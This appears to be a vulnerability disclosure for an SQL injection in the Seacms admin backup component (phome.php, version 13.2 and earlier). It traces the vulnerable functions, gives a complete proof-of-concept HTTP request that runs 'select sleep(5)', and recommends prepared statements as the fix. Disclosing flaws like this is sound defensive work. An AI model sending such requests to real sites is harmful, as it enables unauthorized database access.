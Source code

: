 ## Seacms

Version<=13.2

Vulnerable Component:

filename: \admin\ebak\phome.php

![](./images/image1.png)

All parameter arrays passed in the POST request

Enter the Ebak_DoExecSql() method

![](./images/image2.png)

The "mydbname" parameter must be the name of an existing database; otherwise, an error will be reported.

Execute the Ebak_ClearAddsData () method first. Remove the existence of escape characters in the parameter.

![](./images/image3.png)

Moving on to the most critical Ebak_DoRunQuery () function![](./images/image4.png)

![](./images/image5.png)

The general process is to filter the incoming parameters and truncate the statement according to the semicolon, and remove the redundant characters, leaving only the simple sql statement. Finally, the sql statement is executed using the query method.

### poc:

```plain
POST /wy98j/ebak/phome.php?phome=DoExecSql HTTP/1.1
Host: 192.168.255.156:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.255.156:8888/wy98j/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dlof3c05sr2tiv8hoqi1qr2est
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

mydbname=seacms&query=select sleep(5)
```

![](./images/image6.png)



Fix: Use precompiled sql statements
